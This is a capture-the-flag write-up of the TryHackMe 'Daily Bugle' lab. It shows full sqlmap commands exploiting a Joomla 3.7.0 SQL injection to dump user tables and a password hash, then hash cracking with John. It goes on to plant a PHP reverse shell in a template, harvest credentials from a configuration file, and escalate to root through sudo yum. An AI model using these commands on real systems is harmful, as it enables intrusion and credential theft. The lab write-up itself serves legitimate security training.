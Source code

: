 ```yaml
---
title: TryHackMe Daily Bugle
description: DailyBugle writeup
categories:
 - tryhackme

tags: tryhackme joomla sqli oscp yum
---
```


## Summary
helloo whatsup
Daily Bugle is free box on Tryhackme OSCP learning path. Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.
categories:

## Enumeration/Reconnaissance
![](https://i.imgur.com/tzKm3a6.png)

Here is nmap result, we got three service running.
PORT       Service
22/tcp     ssh
80/tcp     http(Apache)
3306/tcp   mysql(MariaDB)

lets start with port 80 to deep dive.

And we found who rob the Bank
![](https://i.imgur.com/bSR8SzI.png)

To check for intresting directory lets fire up GoBuster.

![](https://i.imgur.com/WwjnMlr.png)

After checking directory we got admin panel.
![](https://i.imgur.com/eR2ePC3.png)

To get more info on joomla, i have used joomscan
![](https://i.imgur.com/YURMF5t.png)

Here nothing seems to be new but we got the joomla version Joomla 3.7.0

Searchsploit shows that joomla version 3.7.0 is vulnerable to sql injection.
![](https://i.imgur.com/2BjGrQb.png)

## Exploit
Here is that sqlmap command vulnerable to joomla 3.7.0
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Lets start Sqlmap with above command.
![](https://i.imgur.com/ChiMPO1.png)
Here, we have declared cookies. So continue with Yes.
![](https://i.imgur.com/sMOS6iW.png)
To skip test payloads specifice for other database. So continue with Y.
![](https://i.imgur.com/6yZB6d2.png)
We got our vulnearable parameter. so stop testing with N.
![](https://i.imgur.com/DkWP4GN.png)
We got five Vulnerable database. Joomla looks interesting!!!
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla --tables
```
![](https://i.imgur.com/IQprwWV.png)
```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --columns
```
Now lets check the columns of Joomla. We got a table "#__users"


![](https://i.imgur.com/9u2jP3c.png)
Lets find out the columns of table "__users".

![](https://i.imgur.com/VlpSAiz.png)
We got five columns.Lets check for username and password.

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c username --dump
```

![](https://i.imgur.com/mpCqnR8.png)
We got the username jonah

```
sqlmap -u “http://10.10.176.140/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" -c password --dump
```
![](https://i.imgur.com/sb3qaHV.png)
lets check the password. We got hash
![](https://i.imgur.com/Pbztfh3.jpg)

## Password Cracking
Time to crack the hash. Here, I have used John to crack the hash
```
$ john --wordlist=/user/share/wordlists/rockyou.txt hash.txt
```
![](https://i.imgur.com/bjv8Hte.jpg)

We got the username and password. Lets goto admin panel and logged in.

![](https://i.imgur.com/R9s3ZQy.png)

Here, I got the template to insert the code. We can to insert reverse shell.
![](https://i.imgur.com/6FR9hhW.png)

![](https://i.imgur.com/RXOHVya.png)
## Reverse shell/Connection
Here I have used PentestMonkey Php Reverse-shell.
![](https://i.imgur.com/v8ChQNM.png)

Now, start netcat to listen on port 4444
![](https://i.imgur.com/oqsRAh7.png)

After saving the template. Click on Template Preview to get the reverse shell.
![](https://i.imgur.com/sUrErlE.png)
We got reverse connection in netcat.
![](https://i.imgur.com/Ith2FCR.png)
We got new user.
![](https://i.imgur.com/7SHM0Iq.png)
After searching, i got configuration file in /var/www/html/configuration.php
![](https://i.imgur.com/Nh4usCL.jpg)
So, got username and password of jjameson. lets switch to jjameson
![](https://i.imgur.com/hATkoiv.jpg)
## Privilege Escalation
For privilege Escalation, it was too easy. tried to start with sudo and got it.
sudo -l
![](https://i.imgur.com/hd2x2kz.png)
Now, goto GFTObin for yum
![](https://i.imgur.com/MYP9hKQ.png)
Copy paste this in your shell and boom
![](https://i.imgur.com/VLqdgFL.png)
## Root
we got root access and root.txt
![](https://i.imgur.com/WgPIsfX.jpg)




















